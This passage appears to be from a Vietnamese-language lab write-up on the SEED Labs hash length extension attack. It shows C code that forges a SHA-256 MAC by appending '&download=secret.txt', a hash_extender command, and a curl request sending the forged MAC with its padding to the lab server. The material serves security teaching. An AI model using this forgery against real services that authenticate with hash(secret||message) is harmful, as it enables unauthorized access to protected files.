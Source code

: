 ```cpp
	// => Split "c31f0b37d6d60a5162301dfb1df61238da5c06fcb0be0fea75f027d2c0b45eb1" into 8 pieces
  c.h[0] = htole32(0xc31f0b37);
  c.h[1] = htole32(0xd6d60a51);
  c.h[2] = htole32(0x62301dfb);
  c.h[3] = htole32(0x1df61238);
  c.h[4] = htole32(0xda5c06fc);
  c.h[5] = htole32(0xb0be0fea);
  c.h[6] = htole32(0x75f027d2);
  c.h[7] = htole32(0xc0b45eb1);
  // Append additional message
  SHA256_Update(&c, "&download=secret.txt", 20); // NOTE: length of append message is 20
  SHA256_Final(buffer, &c);
  for (i = 0; i < 32; i++) {
    printf("%02x", buffer[i]);
  }
  printf("\n");
  return 0;
}
```

Compile code:

```bash
gcc length_ext.c -o length_ext -lcrypto
```

Sau khi chạy chương trình ta sẽ có chuỗi hash: `b395b1ddcf27279b3a7cdab114c3e5c423cb64ab02645eb55073332fa7563865`

![New MAC for attacking](https://imgur.com/gUg7D2z.png)

Ngoài ra, ta cũng có thể dùng một tool khác từ `iagox86` trên [**Github**](https://github.com/iagox86/hash_extender):

```bash
./hash_extender --data "myname=DuongVinh&uid=1004&lstcmd=1" --secret 7 --append "&download=secret.txt" --signature "c31f0b37d6d60a5162301dfb1df61238da5c06fcb0be0fea75f027d2c0b45eb1" --format sha256
```

Cũng sẽ cho một kết quả tương tự như sử dụng code từ bài Lab cung cấp:

![Using hash_extender tool](https://imgur.com/M45smlk.png)

Để gửi request lên server ta cần gửi theo format sau:

```
http://www.seedlab-hashlen.com/?myname=<name>&uid=<uid>&lstcmd=1<padding>&download=secret.txt&mac=<new-mac>
```

Request lên server:

```
curl "http://www.seedlab-hashlen.com/?myname=DuongVinh&uid=1004&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%48&download=secret.txt&mac=b395b1ddcf27279b3a7cdab114c3e5c423cb64ab02645eb55073332fa7563865"
```
